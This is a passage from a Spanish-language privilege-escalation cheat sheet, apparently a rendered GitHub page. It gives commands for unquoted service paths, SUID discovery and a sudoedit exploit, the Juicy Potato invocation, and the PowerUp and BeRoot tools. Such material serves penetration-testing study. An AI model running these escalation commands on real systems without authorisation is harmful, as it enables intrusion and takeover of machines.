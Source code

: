 - **Unquoted Service Paths**:
Explota rutas de servicios sin comillas.
    
    ```bash
    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
    ```
    
- **DLL Hijacking**:
Coloca una DLL maliciosa en un directorio donde una aplicación busca librerías.
    
    ```bash
    https://github.com/blacknbunny/DLL-Hijacking
    ```
    

### 4. Ejemplos Prácticos

### 4.1. Ejemplo en Linux: SUID Binary Exploitation

Buscar y explotar binarios SUID:

```bash
find / -perm -4000 -type f 2>/dev/null
# Supongamos que encontramos /usr/bin/sudoedit con SUID
sudoedit -s /
```

### 4.2. Ejemplo en Windows: Juicy Potato

Compilar y ejecutar Juicy Potato:

```bash
# Descargar y compilar Juicy Potato
git clone https://github.com/ohpe/juicy-potato
# Transferir el binario al objetivo y ejecutarlo
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {CLSID}
```

### 5. Herramientas Adicionales

- **PowerUp**: Herramienta para la escalación de privilegios en Windows.
    
    ```powershell
    Import-Module .\PowerUp.ps1
    Invoke-AllChecks
    ```
    
- **BeRoot**: Herramienta para verificar técnicas comunes de escalación de privilegios en Linux y Windows.
    
    ```bash
    git clone https://github.com/AlessandroZ/BeRoot
    cd BeRoot
    ./beroot
    ```